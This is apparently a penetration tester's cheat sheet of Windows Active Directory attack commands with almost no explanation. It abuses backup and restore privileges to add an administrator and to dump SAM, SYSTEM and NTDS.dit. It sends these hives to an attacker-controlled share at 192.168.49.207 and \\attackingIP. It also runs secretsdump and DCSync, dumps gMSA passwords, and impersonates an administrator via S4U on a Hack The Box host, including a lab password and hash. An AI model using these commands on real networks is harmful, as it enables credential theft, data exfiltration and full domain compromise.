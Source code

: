 ```
.\SeRestoreAbuse.exe "cmd /c net localgroup administrators thescriptkid /add"
```

```
secretsdump.py domain.local/user:password@$ip
```

_SeBackupPrivilege SeRestorePrivilege_

```
reg.exe save hklm\sam sam.save
reg.exe save hklm\system system.save
```

```
robocopy /b c:\users\administrator\desktop\ c:\
```

_NTDS.dit and System.hive_

```
echo "Y" | wbadmin start backup -backuptarget:\\192.168.49.207\exfiltrate -include:c:\windows\ntds
```

```
wbadmin get versions - to get the Version identifier: 00/00/0000-00:00
```

```
echo "Y" | wbadmin start recovery -version:00/00/0000-00:00 -itemtype:file -items:c:\windows\ntds\ntds.dit -recoverytarget:c:\ -notrestoreacl
```

```
reg save HKLM\SYSTEM c:\system.hive
```

```
cp ntds.dit \\attackingIP\share\ntds.dit
```

```
cp system.hive \\attackingIP\share\system.hive
```

```
secretsdump.py -ntds NTDS.dit -system system.hive LOCAL
```

_GetChangesAll (DCSync)_

```
secretsdump.py domain/user@ip
```

_ReadGMSApassword remotely_

```
python2 /opt/gMSADumper/gMSADumper.py -d intelligence.htb -u ted.graves -p Mr.Teddy

*may need to use ntpdate domain if you get clockscrew error*

getST.py -spn WWW/dc.intelligence.htb -impersonate Administrator intelligence.htb/svc_int -hashes :ee6ba16bad56e4fd9cc2a4156710cd2d
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Getting TGT for user
[*] Impersonating Administrator
[*] 	Requesting S4U2self
[*] 	Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache

export KRB5CCNAME=Administrator.ccache
add dc hostname to /etc/hosts
wmiexec.py -k -no-pass dc.intelligence.htb
```
